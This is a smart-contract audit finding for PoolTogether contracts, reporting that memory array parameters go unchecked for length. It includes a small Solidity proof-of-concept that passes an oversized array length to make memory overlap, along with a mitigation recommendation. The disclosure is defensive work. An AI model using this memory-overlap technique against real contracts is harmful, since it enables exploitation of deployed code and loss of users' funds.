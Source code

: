 ## Tags

- bug
- 1 (Low Risk)
- sponsor confirmed

# [Using memory[] parameter without checking its length](https://github.com/code-423n4/2021-06-pooltogether-findings/issues/75) 

# Handle

JMukesh


# Vulnerability details

## Impact
Using memory array parameters (e.g. uint[] memory) as function parameters can be tricky in Solidity, because an attack is possible with a very large array which will overlap with other parts of the memory.

## Proof of Concept

https://github.com/code-423n4/2021-06-pooltogether/blob/85f8d044e7e46b7a3c64465dcd5dffa9d70e4a3e/contracts/PrizePool.sol#L219

https://github.com/code-423n4/2021-06-pooltogether/blob/85f8d044e7e46b7a3c64465dcd5dffa9d70e4a3e/contracts/PrizePool.sol#L639


This an example to show the exploit:

// based on https://github.com/paradigm-operations/paradigm-ctf-2021/blob/master/swap/private/Exploit.sol

pragma solidity ^0.4.24; // only works with low solidity version

contract test{
    struct Overlap {
        uint field0;
    }
    event log(uint);

  function mint(uint[] memory amounts) public  returns (uint) {   // this can be in any solidity version
       Overlap memory v;
       v.field0 = 1234;
       emit log(amounts[0]); // would expect to be 0 however is 1234
       return 1;
     }

  function go() public { // this part requires the low solidity version
      uint x=0x800000000000000000000000000000000000000000000000000000000000000; // 2^251
      bytes memory payload = abi.encodeWithSelector(this.mint.selector, 0x20, x);
      bool success=address(this).call(payload);
  }
}




## Tools Used

manual analysis

## Recommended Mitigation Steps
check the array length before using it

